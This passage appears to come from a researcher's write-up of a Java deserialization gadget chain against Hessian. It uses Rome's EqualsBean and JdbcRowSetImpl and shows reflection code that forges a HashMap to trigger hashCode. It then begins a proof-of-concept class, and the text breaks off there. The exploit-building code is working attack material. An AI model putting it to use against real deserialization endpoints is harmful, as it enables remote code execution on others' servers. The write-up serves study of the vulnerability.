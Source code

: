  - Then follow up to the `UtilFactory#makeHashCodeTrigger` method, which will pass `2` same objects into the `JDKUtil#makeMap` method.

```java
default Object makeHashCodeTrigger (Object o1 ) throws Exception {
    return JDKUtil.makeMap(o1, o1);
}
```

 - Follow up on the `JDKUtil#makeMap` method, first instantiate `HashMap` and set the length to `2`, then reflect to obtain `java.util.HashMap$Node` or `java.util.HashMap$Entry`, then instantiate an object and set length to `2`, and the first data inserts an instantiated object with a value of `java.util.HashMap$Node`, which passes `4` values ​​when instantiating the object, the first value is `0`, the second and third values ​​are the `EqualsBean` instantiated object that was just obtained and passed in, and the fourth is `null`. The second data inserted is the same as the first one, Then set the `s`table` value in the `hashmap` by reflection is the `java.util.HashMap$Node` object created by reflection.

```java
public static HashMap<Object, Object> makeMap (Object v1, Object v2) throws Exception {
    HashMap<Object, Object> s = new HashMap<>();
    Reflections.setFieldValue(s, "size", 2);
    Class<?> nodeC;
    try {
        nodeC = Class.forName("java.util.HashMap$Node");
    }
    catch ( ClassNotFoundException e ) {
        nodeC = Class.forName("java.util.HashMap$Entry");
    }
    Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);

    Object tbl = Array.newInstance(nodeC, 2);
    Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
    Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
    Reflections.setFieldValue(s, "table", tbl);
    return s;
}
```

### POC
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 5:07 pm
 */
public class RomeGadget {

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
```